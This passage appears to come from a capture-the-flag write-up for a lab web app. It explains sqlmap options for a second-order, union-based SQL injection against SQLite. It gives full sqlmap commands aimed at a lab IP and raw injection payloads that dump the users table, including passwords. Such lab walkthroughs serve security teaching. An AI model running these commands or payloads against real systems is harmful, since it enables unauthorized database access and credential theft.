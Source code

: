 <pre><div><div>sqlmap <span>--</span>tamper so<span>-</span>tamper<span>.</span>py <span>--</span>url http<span>://</span><span>10.10</span><span>.</span>1<span>.</span>134<span>:</span><span>5000</span><span>/</span>challenge4<span>/</span>signup  <span>--</span>data <span>"</span><span>username=admin&password=asd</span><span>"</span> </div><div><span>--</span>second<span>-</span>url http<span>://</span><span>10.10</span><span>.</span>1<span>.</span>134<span>:</span><span>5000</span><span>/</span>challenge4<span>/</span>notes  <span>-</span>p username <span>--</span>dbms sqlite <span>--</span>technique<span>=</span>U <span>--</span>no<span>-</span>cast</div><br/><div><span># --tamper so-tamper.py - The tamper script</span></div><div><span># --url - The URL of the injection point, which is /signup in this case</span></div><div><span># --data - The POST data from the registraion form to /signup. </span></div><div><span>#   Password must be the same as the password in the tamper script</span></div><div><span># --second-url http://10.10.1.134:5000/challenge4/notes - Visit this URL to check for results</span></div><div><span># -p username - The parameter to inject to</span></div><div><span># --dbms sqlite - To speed things up</span></div><div><span># --technique=U - The technique to use. [U]nion-based</span></div><div><span># --no-cast - Turn off payload casting mechanism</span></div></div>
</pre>

Dumping the *users* table might be hard without turning off the payload casting mechanism with the *--no-cast* parameter. An example of the difference between casting and no casting can be seen here:

<pre><div><div><div><span>--</span> With casting enabled<span>:</span></div><div><span>admin</span><span>'</span> union <span>all</span> select <span>min</span><span>(</span>cast<span>(</span>x<span>'</span><span>717a717071</span><span>'</span> <span>as</span> text<span>)</span><span>||</span>coalesce<span>(</span>cast<span>(</span>sql <span>as</span> text<span>),</span>cast<span>(</span>x<span>'</span><span>20</span><span>'</span> <span>as</span> text<span>)))</span><span>||</span>cast<span>(</span>x<span>'</span><span>716b786271</span><span>'</span> <span>as</span> text<span>),</span>null <span>from</span> sqlite_master </div><div>where tbl_name<span>=</span>cast<span>(</span>x<span>'</span><span>7573657273</span><span>'</span> <span>as</span> text<span>)</span><span>--</span> daqo<span>'</span></div><div><span>--</span> <span>7573657273</span> <span>is</span> <span>'</span><span>users</span><span>'</span> <span>in</span> <span>ascii</span></div><br/><div><span>--</span> Without casting<span>:</span></div><div><span>admin</span><span>'</span> union <span>all</span> select cast<span>(</span>x<span>'</span><span>717a6a7871</span><span>'</span> <span>as</span> text<span>)</span><span>||</span><span>id</span><span>||</span>cast<span>(</span>x<span>'</span><span>6774697a7462</span><span>'</span> <span>as</span> text<span>)</span><span>||</span>password<span>||</span>cast<span>(</span>x<span>'</span><span>6774697a7462</span><span>'</span> <span>as</span> text<span>)</span><span>||</span>username<span>||</span>cast<span>(</span>x<span>'</span><span>7162706b71</span><span>'</span> <span>as</span> text<span>),</span>null </div><div><span>from</span> users<span>--</span> ypfr<span>'</span></div></div></div>
</pre>

When sqlmap asks, answer no to follow 302 redirects, then answer yes
to continue further testing if it detects some WAF/IPS. Answer no when
asked if you want to merge cookies in future requests, and say no to
reduce the number of requests. As seen in the image below, sqlmap was
able to find the vulnerability, which allows us to automate the
exploitation of it.

![](https://i.imgur.com/ernTceT.png)

The flag can then be found by dumping the *users* table:

<pre><div><div>sqlmap <span>--</span>tamper tamper<span>/</span>so<span>-</span>tamper<span>.</span>py <span>--</span>url http<span>://</span><span>10.10</span><span>.</span>1<span>.</span>134<span>:</span><span>5000</span><span>/</span>challenge4<span>/</span>signup <span>--</span>data <span>"</span><span>username=admin&password=asd</span><span>"</span> </div><div><span>--</span>second<span>-</span>url http<span>://</span><span>10.10</span><span>.</span>1<span>.</span>134<span>:</span><span>5000</span><span>/</span>challenge4<span>/</span>notes <span>-</span>p username <span>--</span>dbms<span>=</span>sqlite <span>--</span>technique<span>=</span>U <span>--</span>no<span>-</span>cast <span>-</span>T users <span>--</span>dump</div></div></pre>

